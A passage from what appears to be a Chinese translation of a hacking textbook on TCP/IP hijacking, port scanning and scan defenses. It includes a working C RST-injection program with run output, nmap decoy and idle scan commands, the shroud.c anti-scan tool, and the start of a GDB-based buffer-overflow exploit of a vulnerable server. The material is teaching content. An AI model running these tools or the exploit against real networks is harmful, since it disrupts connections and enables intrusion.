要执行 TCP/IP 劫持攻击，攻击者必须与受害者处于同一网络中。通过嗅探本地网络段，可以从头部提取所有开放 TCP 连接的详细信息。正如我们所见，每个 TCP 数据包在其头部都包含一个序列号。这个序列号随着每个发送的数据包而递增，以确保数据包按正确顺序接收。在嗅探过程中，攻击者可以访问受害者（以下插图中的系统 A）与主机机器（系统 B）之间的连接序列号。然后，攻击者从受害者的 IP 地址向主机机器发送一个伪造的数据包，使用嗅探到的序列号提供正确的确认号，如图所示。



图 0x400-10。

主机机器将接收到带有正确确认号伪造的数据包，并且没有理由相信它不是来自受害者机器。

## RST 劫持

一种非常简单的 TCP/IP 劫持形式涉及注入一个看起来真实的重置（RST）数据包。如果源地址被伪造且确认号正确，接收方将相信源地址实际上发送了重置数据包，并且连接将被重置。

想象一个针对目标 IP 执行此攻击的程序。从高层次来看，它将使用 libpcap 进行嗅探，然后使用 libnet 注入 RST 数据包。这样的程序不需要查看每个数据包，只需查看到目标 IP 的已建立 TCP 连接。许多其他使用 libpcap 的程序也不需要查看每个单独的数据包，因此 libpcap 提供了一种方法来告诉内核只发送与过滤器匹配的某些数据包。这个过滤器被称为伯克利数据包过滤器（BPF），它与程序非常相似。例如，过滤规则以过滤目标 IP 为 192.168.42.88 的数据包是`"dst host 192.168.42.88"`。像程序一样，这个规则由关键字组成，在实际上传到内核之前必须进行编译。tcpdump 程序使用 BPF 来过滤它捕获的数据；它还提供了一个模式来转储过滤器程序。

```
reader@hacking:~/booksrc $ sudo tcpdump -d "dst host 192.168.42.88"
(000) ldh      [12]
(001) jeq      #0x800          jt 2    jf 4
(002) ld       [30]
(003) jeq      #0xc0a82a58     jt 8    jf 9
(004) jeq      #0x806          jt 6    jf 5
(005) jeq      #0x8035         jt 6    jf 9
(006) ld       [38]
(007) jeq      #0xc0a82a58     jt 8    jf 9
(008) ret      #96
(009) ret      #0
reader@hacking:~/booksrc $ sudo tcpdump -ddd "dst host 192.168.42.88"
10
40 0 0 12
21 0 2 2048
32 0 0 30
21 4 5 3232246360
21 1 0 2054
21 0 3 32821
32 0 0 38
21 0 1 3232246360
6 0 0 96
6 0 0 0 
reader@hacking:~/booksrc $
```

在编译过滤规则后，它可以传递给内核进行过滤。对已建立连接的过滤要复杂一些。所有已建立的连接都将设置 ACK 标志，因此这是我们应寻找的。TCP 标志位于 TCP 头部的第 13 个八位字节。标志按以下顺序从左到右找到：URG、ACK、PSH、RST、SYN 和 FIN。这意味着如果 ACK 标志被打开，第 13 个八位字节将是二进制的`00010000`，即十进制的 16。如果 SYN 和 ACK 都被打开，第 13 个八位字节将是二进制的`00010010`，即十进制的 18。

为了创建一个在 ACK 标志被打开时匹配的过滤器，而不关心其他任何位，我们使用了按位与运算符。将`00010010`与`00010000`进行与操作将产生`00010000`，因为 ACK 位是唯一一个两个位都是`1`的位。这意味着`tcp[13] & 16 == 16`的过滤器将匹配 ACK 标志被打开的数据包，而不管其他标志的状态如何。

这个过滤器规则可以使用命名值和逆逻辑重写为`tcp[tcpflags] & tcp-ack != 0`。这更容易阅读，但仍然提供相同的结果。这个规则可以使用与逻辑与先前的目标 IP 规则组合；完整的规则如下所示。

```
reader@hacking:~/booksrc $ sudo tcpdump -nl "tcp[tcpflags] & tcp-ack != 0 and dst host 
192.168.42.88"
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
10:19:47.567378 IP 192.168.42.72.40238 > 192.168.42.88.22: . ack 2777534975 win 92 
<nop,nop,timestamp 85838571 0>
10:19:47.770276 IP 192.168.42.72.40238 > 192.168.42.88.22: . ack 22 win 92 <nop,nop,
timestamp
85838621 29399>
10:19:47.770322 IP 192.168.42.72.40238 > 192.168.42.88.22: P 0:20(20) ack 22 win 92 
<nop,nop,timestamp 85838621 29399>
10:19:47.771536 IP 192.168.42.72.40238 > 192.168.42.88.22: P 20:732(712) ack 766 win 115 
<nop,nop,timestamp 85838622 29399>
10:19:47.918866 IP 192.168.42.72.40238 > 192.168.42.88.22: P 732:756(24) ack 766 win 115  
<nop,nop,timestamp 85838659 29402>
```

在以下程序中，使用类似的规则来过滤 libpcap 嗅探到的数据包。当程序接收到数据包时，使用头部信息来模拟一个 RST 数据包。这个程序将按其列出顺序进行解释。

### rst_hijack.c

```
#include <libnet.h>
#include <pcap.h>
#include "hacking.h"

void caught_packet(u_char *, const struct pcap_pkthdr *, const u_char *);
int set_packet_filter(pcap_t *, struct in_addr *);

struct data_pass {
   int libnet_handle;
   u_char *packet;
}; 

int main(int argc, char *argv[]) {
   struct pcap_pkthdr cap_header;
   const u_char *packet, *pkt_data;
   pcap_t *pcap_handle;
   char errbuf[PCAP_ERRBUF_SIZE]; // Same size as LIBNET_ERRBUF_SIZE
   char *device;
   u_long target_ip;
   int network;
   struct data_pass critical_libnet_data;

   if(argc < 1) {
      printf("Usage: %s <target IP>\n", argv[0]);
      exit(0);
   }
   target_ip = libnet_name_resolve(argv[1], LIBNET_RESOLVE);

   if (target_ip == -1)
      fatal("Invalid target address");

   device = pcap_lookupdev(errbuf);
   if(device == NULL)
      fatal(errbuf);

   pcap_handle = pcap_open_live(device, 128, 1, 0, errbuf);
   if(pcap_handle == NULL)
      fatal(errbuf);

   critical_libnet_data.libnet_handle = libnet_open_raw_sock(IPPROTO_RAW);
   if(critical_libnet_data.libnet_handle == -1)
      libnet_error(LIBNET_ERR_FATAL, "can't open network interface.  -- this program must
 run

as root.\n");

   libnet_init_packet(LIBNET_IP_H + LIBNET_TCP_H, &(critical_libnet_data.packet));
   if (critical_libnet_data.packet == NULL)
      libnet_error(LIBNET_ERR_FATAL, "can't initialize packet memory.\n");

   libnet_seed_prand();

   set_packet_filter(pcap_handle, (struct in_addr *)&target_ip);

   printf("Resetting all TCP connections to %s on %s\n", argv[1], device);
   pcap_loop(pcap_handle, -1, caught_packet, (u_char *)&critical_libnet_data);

   pcap_close(pcap_handle); 
}
```

这段程序的大部分内容应该对你来说是有意义的。一开始，定义了一个`data_pass`结构，该结构用于通过 libpcap 回调传递数据。libnet 用于打开原始套接字接口并分配数据包内存。在回调函数中需要原始套接字文件描述符和数据包内存指针，因此这些关键的 libnet 数据存储在其自己的结构中。`pcap_loop()`调用中的最后一个参数是用户指针，它直接传递到回调函数。通过传递`critical_libnet_data`结构体的指针，回调函数将能够访问该结构体中的所有内容。此外，`pcap_open_live()`中使用的 snap 长度值已从`4096`减少到`128`，因为所需的信息仅限于数据包的头部。

```
/* Sets a packet filter to look for established TCP connections to target_ip */
int set_packet_filter(pcap_t *pcap_hdl, struct in_addr *target_ip) {
   struct bpf_program filter;
   char filter_string[100];

   sprintf(filter_string, "tcp[tcpflags] & tcp-ack != 0 and dst host %s", 
inet_ntoa(*target_ip));

   printf("DEBUG: filter string is \'%s\'\n", filter_string);
   if(pcap_compile(pcap_hdl, &filter, filter_string, 0, 0) == -1)
      fatal("pcap_compile failed");

   if(pcap_setfilter(pcap_hdl, &filter) == -1)
      fatal("pcap_setfilter failed"); 
}
```

下一个函数编译并设置 BPF，以便只接受目标 IP 的已建立连接的数据包。`sprintf()`函数只是一个将输出打印到字符串的`printf()`。

```
void caught_packet(u_char *user_args, const struct pcap_pkthdr *cap_header, const u_char 
*packet) {
   u_char *pkt_data;
   struct libnet_ip_hdr *IPhdr;
   struct libnet_tcp_hdr *TCPhdr;
   struct data_pass *passed;
   int bcount;

   passed = (struct data_pass *) user_args; // Pass data using a pointer to a struct.

   IPhdr = (struct libnet_ip_hdr *) (packet + LIBNET_ETH_H);
   TCPhdr = (struct libnet_tcp_hdr *) (packet + LIBNET_ETH_H + LIBNET_TCP_H);

   printf("resetting TCP connection from %s:%d ",
         inet_ntoa(IPhdr->ip_src), htons(TCPhdr->th_sport));
   printf("<---> %s:%d\n",
         inet_ntoa(IPhdr->ip_dst), htons(TCPhdr->th_dport));
   libnet_build_ip(LIBNET_TCP_H,      // Size of the packet sans IP header
      IPTOS_LOWDELAY,                 // IP tos
      libnet_get_prand(LIBNET_PRu16), // IP ID (randomized)
      0,                              // Frag stuff
      libnet_get_prand(LIBNET_PR8),   // TTL (randomized)
      IPPROTO_TCP,                    // Transport protocol
      *((u_long *)&(IPhdr->ip_dst)),  // Source IP (pretend we are dst)
      *((u_long *)&(IPhdr->ip_src)),  // Destination IP (send back to src)
      NULL,                           // Payload (none)
      0,                              // Payload length
      passed->packet);                // Packet header memory 

   libnet_build_tcp(htons(TCPhdr->th_dport), // Source TCP port (pretend we are dst)
      htons(TCPhdr->th_sport),        // Destination TCP port (send back to src)
      htonl(TCPhdr->th_ack),          // Sequence number (use previous ack)
      libnet_get_prand(LIBNET_PRu32), // Acknowledgement number (randomized)
      TH_RST,                         // Control flags (RST flag set only)
      libnet_get_prand(LIBNET_PRu16), // Window size (randomized)
      0,                              // Urgent pointer
      NULL,                           // Payload (none)
      0,                              // Payload length
      (passed->packet) + LIBNET_IP_H);// Packet header memory

   if (libnet_do_checksum(passed->packet, IPPROTO_TCP, LIBNET_TCP_H) == -1)
      libnet_error(LIBNET_ERR_FATAL, "can't compute checksum\n");

   bcount = libnet_write_ip(passed->libnet_handle, passed->packet, 
LIBNET_IP_H+LIBNET_TCP_H);
   if (bcount < LIBNET_IP_H + LIBNET_TCP_H)
      libnet_error(LIBNET_ERR_WARNING, "Warning: Incomplete packet written.");

   usleep(5000); // pause slightly
}
```

回调函数模拟 RST 数据包。首先，获取关键的 libnet 数据，并使用 libnet 提供的结构设置 IP 和 TCP 头指针。我们可以使用自己从 hacking-network.h 中定义的结构，但 libnet 的结构已经存在，并且可以补偿主机的字节序。模拟的 RST 数据包使用嗅探到的源地址作为目标地址，反之亦然。嗅探到的序列号被用作模拟数据包的确认号，因为这是预期的。

```
reader@hacking:~/booksrc $ gcc $(libnet-config --defines) -o rst_hijack rst_hijack.c -lnet
 -lpcap

reader@hacking:~/booksrc $ sudo ./rst_hijack 192.168.42.88
DEBUG: filter string is 'tcp[tcpflags] & tcp-ack != 0 and dst host 192.168.42.88'
Resetting all TCP connections to 192.168.42.88 on eth0
resetting TCP connection from 192.168.42.72:47783 <---> 192.168.42.88:22
```

## 继续劫持

欺骗的数据包不需要是 RST 数据包。当欺骗的数据包包含数据时，这种攻击变得更加有趣。主机机器接收到欺骗的数据包，增加序列号，并回应受害者的 IP。由于受害者机器不知道欺骗的数据包，主机机器的响应具有错误的序列号，因此受害者忽略该响应数据包。而且，由于受害者机器忽略了主机机器的响应数据包，受害者的序列号计数就偏移了。因此，受害者尝试发送给主机机器的任何数据包都将具有错误的序列号，导致主机机器忽略它。在这种情况下，连接的双方都有错误的序列号，导致不同步的状态。而且，由于攻击者发送了第一个导致所有这些混乱的欺骗数据包，它可以跟踪序列号并继续从受害者的 IP 地址向主机机器发送欺骗数据包。这使得攻击者可以在受害者的连接挂起的同时继续与主机机器通信。

# 端口扫描

端口扫描是一种确定哪些端口正在监听并接受连接的方法。由于大多数服务都在标准、已记录的端口上运行，因此这些信息可以用来确定正在运行的服务。端口扫描的最简单形式是尝试在目标系统上的每个可能的端口上打开 TCP 连接。虽然这种方法有效，但它也很嘈杂且容易被检测到。此外，当建立连接时，服务通常会记录 IP 地址。为了避免这种情况，已经发明了几种巧妙的技术。

由 Fyodor 编写的端口扫描工具 nmap 实现了以下所有端口扫描技术。这个工具已经成为最受欢迎的开源端口扫描工具之一。

## 潜行 SYN 扫描

SYN 扫描有时也称为*半开*扫描。这是因为它实际上并没有打开完整的 TCP 连接。回想一下 TCP/IP 握手：当建立完整连接时，首先发送一个 SYN 数据包，然后发送一个 SYN/ACK 数据包作为回应，最后发送一个 ACK 数据包来完成握手并打开连接。SYN 扫描不会完成握手，因此永远不会打开完整的连接。相反，只发送初始的 SYN 数据包，并检查响应。如果收到 SYN/ACK 数据包作为回应，那么该端口必须正在接受连接。这将被记录下来，并发送一个 RST 数据包来断开连接，以防止服务意外地被 DoS 攻击。

使用 nmap，可以使用命令行选项`-sS`执行 SYN 扫描。程序必须以 root 权限运行，因为程序不使用标准套接字，需要原始网络访问。

```
reader@hacking:~/booksrc $ sudo nmap -sS 192.168.42.72

Starting Nmap 4.20 ( http://insecure.org ) at 2007-05-29 09:19 PDT
Interesting ports on 192.168.42.72:
Not shown: 1696 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh 

Nmap finished: 1 IP address (1 host up) scanned in 0.094 seconds
```

## FIN, X-mas, and Null Scans

为了应对 SYN 扫描，创建了新的工具来检测和记录半开连接。因此，又出现了一组用于隐蔽端口扫描的技术：FIN、X-mas 和 Null 扫描。这些技术都涉及向目标系统上的每个端口发送无意义的数据包。如果端口正在监听，这些数据包就会被忽略。然而，如果端口关闭并且实现遵循协议（RFC 793），则会发送一个 RST 数据包。这种差异可以用来检测哪些端口正在接受连接，而实际上并不需要打开任何连接。

FIN 扫描发送一个 FIN 数据包，X-mas 扫描发送一个同时开启 FIN、URG 和 PUSH 标志的数据包（之所以这样命名是因为标志亮起就像圣诞树一样），而 Null 扫描发送一个没有设置 TCP 标志的数据包。虽然这些扫描类型更隐蔽，但它们也可能不可靠。例如，微软对 TCP 的实现并没有像预期的那样发送 RST 数据包，这使得这种扫描方式无效。

使用 nmap，可以通过命令行选项 `-sF`、`-sX` 和 `-sN` 分别执行 FIN、X-mas 和 NULL 扫描。它们的输出基本上与之前的扫描相同。

## 伪造诱饵

另一种避免检测的方法是隐藏在几个诱饵之中。这种技术简单地在每个真实端口扫描连接之间伪造来自不同诱饵 IP 地址的连接。伪造连接的响应并不需要，因为它们只是误导。然而，伪造的诱饵地址必须使用活动主机的真实 IP 地址；否则，目标可能会意外地被 SYN 洪水攻击。

可以使用 nmap 的 `-D` 命令行选项指定诱饵。下面显示的示例 nmap 命令扫描 IP 192.168.42.72，使用 192.168.42.10 和 192.168.42.11 作为诱饵。

```
reader@hacking:~/booksrc $ sudo nmap -D 192.168.42.10,192.168.42.11 192.168.42.72
```

## 空闲扫描

空闲扫描是一种使用空闲主机伪造的数据包扫描目标的方法，通过观察空闲主机的变化来实现。攻击者需要找到一个可用的空闲主机，该主机没有发送或接收任何其他网络流量，并且具有产生可预测 IP ID 的 TCP 实现，这些 IP ID 随每个数据包以已知增量变化。IP ID 的目的是在每个会话中为每个数据包提供唯一性，并且通常以固定数量递增。可预测的 IP ID 从未真正被视为安全风险，而空闲扫描正是利用了这种误解。较新的操作系统，如最近的 Linux 内核、OpenBSD 和 Windows Vista，会随机化 IP ID，但较旧的操作系统和硬件（如打印机）通常不会。

首先，攻击者通过发送一个 SYN 数据包或未经请求的 SYN/ACK 数据包与空闲主机联系，并观察响应的 IP ID 来获取空闲主机的当前 IP ID。通过重复这个过程几次，可以确定每次数据包应用到的 IP ID 的增量。

然后，攻击者向目标机器上的一个端口发送带有空闲主机 IP 地址的伪造 SYN 包。根据受害机器上的那个端口是否监听，有两种可能的情况发生：

+   如果那个端口正在监听，将向空闲主机发送一个 SYN/ACK 包。但由于空闲主机实际上没有发送初始的 SYN 包，这个响应对空闲主机来说看起来是未请求的，因此空闲主机会通过发送一个 RST 包来响应。

+   如果那个端口没有监听，目标机器不会向空闲主机发送 SYN/ACK 包，因此空闲主机不会响应。

在这一点上，攻击者再次联系空闲主机以确定 IP ID 增加了多少。如果只增加了一个间隔，则空闲主机在这两次检查之间没有发送其他数据包。这意味着目标机器上的端口是关闭的。如果 IP ID 增加了两个间隔，则假设在检查之间发送了一个数据包，即 RST 包，这意味着目标机器上的端口是开放的。

步骤在下一页上以两种可能的结果进行了说明。

当然，如果空闲主机并非真正空闲，结果将会失真。如果空闲主机上有轻微的流量，每个端口可以发送多个数据包。如果发送了 20 个数据包，那么 20 个增量步骤的变化应该是一个开放端口的指示，而没有变化则表示端口关闭。即使有轻微的流量，例如空闲主机发送的一个或两个与扫描无关的数据包，这种差异也足够大，仍然可以被检测到。

如果在没有任何日志功能的空闲主机上正确使用这种技术，攻击者可以扫描任何目标，而无需透露其 IP 地址。

在找到合适的空闲主机后，可以使用 nmap 通过`-sI`命令行选项后跟空闲主机的地址来进行这种类型的扫描：

```
reader@hacking:~/booksrc $ sudo nmap -sI idlehost.com 192.168.42.7
```


图表 0x400-11。

## 主动防御（隐蔽）

端口扫描通常在系统被攻击之前用于分析系统。了解哪些端口是开放的，允许攻击者确定哪些服务可以被攻击。许多入侵检测系统（IDS）提供检测端口扫描的方法，但那时信息已经泄露。在撰写本章时，我 wonder 如果在端口扫描实际发生之前阻止端口扫描是否可能。实际上，黑客攻击就是关于想出新点子，因此将在这里介绍一种新的主动端口扫描防御方法。

首先，通过简单的内核修改可以防止 FIN、NULL 和 X-mas 扫描。如果内核从未发送重置包，这些扫描将一无所获。下面的输出使用`grep`查找负责发送重置包的内核代码。

```
reader@hacking:~/booksrc $ grep -n -A 20 "void.*send_reset" /usr/src/linux/net/ipv4/
tcp_ipv4.c
547:static void tcp_v4_send_reset(struct sock *sk, struct sk_buff *skb)
548-{
549-    struct tcphdr *th = skb->h.th;
550-    struct {
551-            struct tcphdr th;
552-#ifdef CONFIG_TCP_MD5SIG
553-            __be32 opt[(TCPOLEN_MD5SIG_ALIGNED >> 2)];
554-#endif
555-    } rep;
556-    struct ip_reply_arg arg;
557-#ifdef CONFIG_TCP_MD5SIG
558-    struct tcp_md5sig_key *key;
559-#endif
560-

     `return; // Modification: Never send RST, always return.`

561-    /* Never send a reset in response to a reset. */
562-    if (th->rst)
563-            return;
564-
565-    if (((struct rtable *)skb->dst)->rt_type != RTN_LOCAL)
566-            return;
567- 
reader@hacking:~/booksrc $
```

通过添加`return`命令（如上所示加粗），`tcp_v4_send_reset()`内核函数将简单地返回而不是执行任何操作。在内核重新编译后，生成的内核不会发送重置数据包，从而避免信息泄露。

### 核心修改前的 FIN 扫描

```
matrix@euclid:~ $ sudo nmap -T5 -sF 192.168.42.72
Starting Nmap 4.11 ( http://www.insecure.org/nmap/ ) at 2007-03-17 16:58 PDT
Interesting ports on 192.168.42.72:
Not shown: 1678 closed ports

PORT   STATE         SERVICE
22/tcp open|filtered ssh
80/tcp open|filtered http
MAC Address: 00:01:6C:EB:1D:50 (Foxconn)
Nmap finished: 1 IP address (1 host up) scanned in 1.462 seconds
matrix@euclid:~ $
```

### 核心修改后的 FIN 扫描

```
matrix@euclid:~ $ sudo nmap -T5 -sF 192.168.42.72
Starting Nmap 4.11 ( http://www.insecure.org/nmap/ ) at 2007-03-17 16:58 PDT
Interesting ports on 192.168.42.72:
Not shown: 1678 closed ports
PORT   STATE         SERVICE
MAC Address: 00:01:6C:EB:1D:50 (Foxconn)
Nmap finished: 1 IP address (1 host up) scanned in 1.462 seconds
matrix@euclid:~ $
```

这对于依赖于 RST 数据包的扫描来说效果很好，但防止 SYN 扫描和全连接扫描的信息泄露则要困难一些。为了保持功能，开放端口必须以 SYN/ACK 数据包响应——这是无法绕过的。但如果所有关闭的端口也以 SYN/ACK 数据包响应，攻击者从端口扫描中能获取的有用信息量将会最小化。然而，简单地打开所有端口会导致性能大幅下降，这并不是所希望的。理想情况下，这一切都应该在不使用 TCP 栈的情况下完成。以下程序正是如此。它是 rst_hijack.c 程序的修改版，使用更复杂的 BPF 字符串来过滤仅针对关闭端口的 SYN 数据包。回调函数对通过 BPF 的任何 SYN 数据包伪造一个看起来合法的 SYN/ACK 响应。这将向端口扫描器发送大量的假阳性，从而隐藏合法端口。

### shroud.c

```
#include <libnet.h>
#include <pcap.h>
#include "hacking.h"

#define MAX_EXISTING_PORTS 30

void caught_packet(u_char *, const struct pcap_pkthdr *, const u_char *);
int set_packet_filter(pcap_t *, struct in_addr *, u_short *);

struct data_pass {
   int libnet_handle; 
   u_char *packet;
};

int main(int argc, char *argv[]) {
   struct pcap_pkthdr cap_header;
   const u_char *packet, *pkt_data;
   pcap_t *pcap_handle;
   char errbuf[PCAP_ERRBUF_SIZE]; // Same size as LIBNET_ERRBUF_SIZE
   char *device; 
   u_long target_ip; 
   int network, i;
   struct data_pass critical_libnet_data;
   u_short existing_ports[MAX_EXISTING_PORTS];

   if((argc < 2) || (argc > MAX_EXISTING_PORTS+2)) {
      if(argc > 2)
         printf("Limited to tracking %d existing ports.\n", MAX_EXISTING_PORTS);
      else
         printf("Usage: %s <IP to shroud> [existing ports...]\n", argv[0]);
      exit(0);
   }

   target_ip = libnet_name_resolve(argv[1], LIBNET_RESOLVE);
   if (target_ip == -1)
      fatal("Invalid target address");

   for(i=2; i < argc; i++)
      existing_ports[i-2] = (u_short) atoi(argv[i]);

   existing_ports[argc-2] = 0;

   device = pcap_lookupdev(errbuf);
   if(device == NULL)
      fatal(errbuf);

   pcap_handle = pcap_open_live(device, 128, 1, 0, errbuf);
   if(pcap_handle == NULL)
      fatal(errbuf);

   critical_libnet_data.libnet_handle = libnet_open_raw_sock(IPPROTO_RAW);
   if(critical_libnet_data.libnet_handle == -1)
      libnet_error(LIBNET_ERR_FATAL, "can't open network interface.  -- this program must run
as root.\n");

   libnet_init_packet(LIBNET_IP_H + LIBNET_TCP_H, &(critical_libnet_data.packet));
   if (critical_libnet_data.packet == NULL)
      libnet_error(LIBNET_ERR_FATAL, "can't initialize packet memory.\n");

   libnet_seed_prand();

   set_packet_filter(pcap_handle, (struct in_addr *)&target_ip, existing_ports);

   pcap_loop(pcap_handle, -1, caught_packet, (u_char *)&critical_libnet_data);
   pcap_close(pcap_handle);
}

/* Sets a packet filter to look for established TCP connections to target_ip */
int set_packet_filter(pcap_t *pcap_hdl, struct in_addr *target_ip, u_short *ports) {
   struct bpf_program filter;
   char *str_ptr, filter_string[90 + (25 * MAX_EXISTING_PORTS)];
   int i=0;

   sprintf(filter_string, "dst host %s and ", inet_ntoa(*target_ip)); // Target IP
   strcat(filter_string, "tcp[tcpflags] & tcp-syn != 0 and tcp[tcpflags] & tcp-ack = 0");

   if(ports[0] != 0) { // If there is at least one existing port
      str_ptr = filter_string + strlen(filter_string);
      if(ports[1] == 0) // There is only one existing port
         sprintf(str_ptr, " and not dst port %hu", ports[i]);
      else { // Two or more existing ports
         sprintf(str_ptr, " and not (dst port %hu", ports[i++]);
         while(ports[i] != 0) {
            str_ptr = filter_string + strlen(filter_string);
            sprintf(str_ptr, " or dst port %hu", ports[i++]);
         }
         strcat(filter_string, ")");
      }
   }
   printf("DEBUG: filter string is \'%s\'\n", filter_string);
   if(pcap_compile(pcap_hdl, &filter, filter_string, 0, 0) == -1)
      fatal("pcap_compile failed");

   if(pcap_setfilter(pcap_hdl, &filter) == -1)
      fatal("pcap_setfilter failed");
}

void caught_packet(u_char *user_args, const struct pcap_pkthdr *cap_header, const u_char
*packet) {
   u_char *pkt_data;
   struct libnet_ip_hdr *IPhdr;
   struct libnet_tcp_hdr *TCPhdr;
   struct data_pass *passed;
   int bcount;

   passed = (struct data_pass *) user_args; // Pass data using a pointer to a struct

   IPhdr = (struct libnet_ip_hdr *) (packet + LIBNET_ETH_H);
   TCPhdr = (struct libnet_tcp_hdr *) (packet + LIBNET_ETH_H + LIBNET_TCP_H);

   libnet_build_ip(LIBNET_TCP_H,      // Size of the packet sans IP header 
      IPTOS_LOWDELAY,                 // IP tos 
      libnet_get_prand(LIBNET_PRu16), // IP ID (randomized) 
      0,                              // Frag stuff 
      libnet_get_prand(LIBNET_PR8),   // TTL (randomized) 
      IPPROTO_TCP,                    // Transport protocol 
      *((u_long *)&(IPhdr->ip_dst)),  // Source IP (pretend we are dst) 
      *((u_long *)&(IPhdr->ip_src)),  // Destination IP (send back to src) 
      NULL,                           // Payload (none) 
      0,                              // Payload length 
      passed->packet);                // Packet header memory 

   libnet_build_tcp(htons(TCPhdr->th_dport),// Source TCP port (pretend we are dst) 
      htons(TCPhdr->th_sport),        // Destination TCP port (send back to src) 
      htonl(TCPhdr->th_ack),          // Sequence number (use previous ack) 
      htonl((TCPhdr->th_seq) + 1),    // Acknowledgement number (SYN's seq # + 1)
      TH_SYN | TH_ACK,                // Control flags (RST flag set only) 
      libnet_get_prand(LIBNET_PRu16), // Window size (randomized) 
      0,                              // Urgent pointer
      NULL,                           // Payload (none)
      0,                              // Payload length 
      (passed->packet) + LIBNET_IP_H);// Packet header memory 

   if (libnet_do_checksum(passed->packet, IPPROTO_TCP, LIBNET_TCP_H) == -1)
      libnet_error(LIBNET_ERR_FATAL, "can't compute checksum\n");

   bcount = libnet_write_ip(passed->libnet_handle, passed->packet,
 LIBNET_IP_H+LIBNET_TCP_H);
   if (bcount < LIBNET_IP_H + LIBNET_TCP_H)
      libnet_error(LIBNET_ERR_WARNING, "Warning: Incomplete packet written.");
   printf("bing!\n"); 
}
```

上述代码中有几个棘手的部分，但你应该能够理解所有内容。当程序编译并执行时，它将隐藏作为第一个参数给出的 IP 地址，除了作为剩余参数提供的现有端口列表之外。

```
reader@hacking:~/booksrc $ gcc $(libnet-config --defines) -o shroud shroud.c -lnet -lpcap
reader@hacking:~/booksrc $ sudo ./shroud 192.168.42.72 22 80
DEBUG: filter string is 'dst host 192.168.42.72 and tcp[tcpflags] & tcp-syn != 0 and
tcp[tcpflags] & tcp-ack = 0 and not (dst port 22 or dst port 80)'
```

当 shroud 运行时，任何端口扫描尝试都会显示所有端口都是开放的。

```
matrix@euclid:~ $ sudo nmap -sS 192.168.0.189

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on  (192.168.0.189):
Port       State       Service
1/tcp      open        tcpmux
2/tcp      open        compressnet
3/tcp      open        compressnet
4/tcp      open        unknown
5/tcp      open        rje
6/tcp      open        unknown
7/tcp      open        echo
8/tcp      open        unknown
9/tcp      open        discard
10/tcp     open        unknown
11/tcp     open        systat
12/tcp     open        unknown
13/tcp     open        daytime
14/tcp     open        unknown
15/tcp     open        netstat
16/tcp     open        unknown
17/tcp     open        qotd
18/tcp     open        msp
19/tcp     open        chargen
20/tcp     open        ftp-data
21/tcp     open        ftp
`22/tcp     open        ssh`
23/tcp     open        telnet
24/tcp     open        priv-mail
25/tcp     open        smtp

[ output trimmed ]

32780/tcp  open        sometimes-rpc23
32786/tcp  open        sometimes-rpc25
32787/tcp  open        sometimes-rpc27
43188/tcp  open        reachout
44442/tcp  open        coldfusion-auth
44443/tcp  open        coldfusion-auth
47557/tcp  open        dbbrowse
49400/tcp  open        compaqdiag
54320/tcp  open        bo2k
61439/tcp  open        netprowler-manager
61440/tcp  open        netprowler-manager2
61441/tcp  open        netprowler-sensor
65301/tcp  open        pcanywhere

Nmap run completed -- 1 IP address (1 host up) scanned in 37 seconds 
matrix@euclid:~ $
```

实际上运行的服务只有一个，即 22 号端口上的 ssh，但它隐藏在假阳性之中。一个专门的攻击者可以简单地 telnet 到每个端口来检查标语，但这种技术可以很容易地扩展到伪造标语。

# 伸出援手，黑客他人

网络编程倾向于移动许多内存块，并且类型转换很重。你自己已经看到了一些类型转换是多么疯狂。在这种混乱中，错误会蓬勃发展。而且由于许多网络程序需要以 root 身份运行，这些小错误可能会成为关键漏洞。本章代码中存在这样一个漏洞。你注意到它了吗？

## 伸出援手，黑客他人

### 来自 hacking-network.h

```
/* This function accepts a socket FD and a ptr to a destination
 * buffer.  It will receive from the socket until the EOL byte
 * sequence in seen.  The EOL bytes are read from the socket, but
 * the destination buffer is terminated before these bytes.
 * Returns the size of the read line (without EOL bytes).
 */
int recv_line(int sockfd, unsigned char *dest_buffer) {
#define EOL "\r\n" // End-of-line byte sequence
#define EOL_SIZE 2
   unsigned char *ptr;
   int eol_matched = 0;

   ptr = dest_buffer;

   while(recv(sockfd, ptr, 1, 0) == 1) { // Read a single byte.
      if(*ptr == EOL[eol_matched]) { // Does this byte match terminator?
         eol_matched++;
         if(eol_matched == EOL_SIZE) { // If all bytes match terminator,
            *(ptr+1-EOL_SIZE) = '\0'; // terminate the string.
            return strlen(dest_buffer); // Return bytes recevied.
         }
      } else {
         eol_matched = 0;
      }
      ptr++; // Increment the pointer to the next byte.
   }
   return 0; // Didn't find the end-of-line characters. 
}
```

在 hacking-network.h 中的`recv_line()`函数有一个小的遗漏错误——没有限制长度的代码。这意味着如果接收的字节超过`dest_buffer`的大小，就会溢出。tinyweb 服务器程序以及使用此函数的任何其他程序都容易受到攻击。

## 使用 GDB 分析

要利用 tinyweb.c 程序中的漏洞，我们只需要发送会策略性地覆盖返回地址的数据包。首先，我们需要知道从我们控制的缓冲区开始到存储的返回地址的偏移量。使用 GDB，我们可以分析编译后的程序以找到这个偏移量；然而，有一些细微的细节可能会导致复杂的问题。例如，程序需要 root 权限，因此调试器必须以 root 身份运行。但是使用 `sudo` 或以 root 的环境运行会改变堆栈，这意味着在调试器运行二进制文件时看到的地址与正常运行时的地址不匹配。还有其他一些细微的差异可能会在调试器中像这样移动内存，造成不一致，难以追踪。根据调试器的显示，一切看起来都应该是正常的；然而，当在调试器外运行时，由于地址不同，攻击会失败。

解决这个问题的优雅方法是连接到已经运行的进程。在下面的输出中，GDB 用于连接到另一个终端中启动的已经运行的 tinyweb 进程。使用 `-g` 选项重新编译源代码以包含 GDB 可以应用于运行进程的调试符号。

```
reader@hacking:~/booksrc $ ps aux | grep tinyweb
root     13019  0.0  0.0   1504   344 pts/0    S+   20:25   0:00 ./tinyweb
reader   13104  0.0  0.0   2880   748 pts/2    R+   20:27   0:00 grep tinyweb
reader@hacking:~/booksrc $ gcc -g tinyweb.c 
reader@hacking:~/booksrc $ sudo gdb -q --pid=13019 --symbols=./a.out
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
Attaching to process 13019
/cow/home/reader/booksrc/tinyweb: No such file or directory.
A program is being debugged already.  Kill it? (y or n) n
Program not killed.
(gdb) bt
#0  0xb7fe77f2 in ?? ()
#1  0xb7f691e1 in ?? ()
#2  0x08048ccf in main () at tinyweb.c:44
(gdb) list 44
39         if (listen(sockfd, 20) == -1)
